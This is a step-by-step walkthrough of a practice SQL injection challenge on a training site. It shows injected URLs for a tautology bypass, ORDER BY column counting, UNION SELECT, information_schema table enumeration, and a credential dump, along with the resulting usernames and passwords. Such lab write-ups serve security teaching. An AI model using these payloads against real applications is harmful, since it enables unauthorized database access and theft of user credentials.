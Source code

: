 <h1>Challenge 1</h1>

**Step 1<br>** 
Challenge Link-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1``` 

**Step 2<br>**
Find out all users-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+OR+'1'='1``` 

**Step 3<br>**
Use ORDER BY clause to find out the number of columns in the current table-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+ORDER+BY+3--+ ```

**Step 4<br>**
Now that we know how many columns the current table has, we will use UNION to see which column is vulnerable. UNION SELECT is used to combine results from multiple SELECT statements into a single result. The vulnerable column is the one whose data is being displayed on the page-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,2,3--+``` 

The number 2 is printed, hence, it is the vulnerable column.<br> 

**Step 5<br>** 
Show MySQL version-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,version(),3--+```<br>
Result-<br>  
```5.6.44-cll-lve``` 

**Step 6<br>**
Find out the table names-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3--+```<br>
```Result- testtable1,userlogs,users```<br>
group_concat - Concatenate results into a string <br>
Information_schema - Database that stores information about other databases <br>
 
**Step 7<br>**
Find the password for users- 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+password+FROM+users+WHERE+ID=1),3--+ ```<br>
```Result-``` <br>
```Username is : injector```<br> 
```Username is : khan``` <br>

**Step 8<br>**
Username and password for all users-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(username,0x0a,password)+FROM+users+WHERE+ID=1+OR+1=1),3--+ ``` <br>
<br>Format- [username password] <br>
```Result-```<br>
```Username is : injector khan,decompiler hacktract,devilhunte dante,Zen sec-idiots,Zenodermus security-i,grayhat hacker,khan haxor,admin sadmin``` 
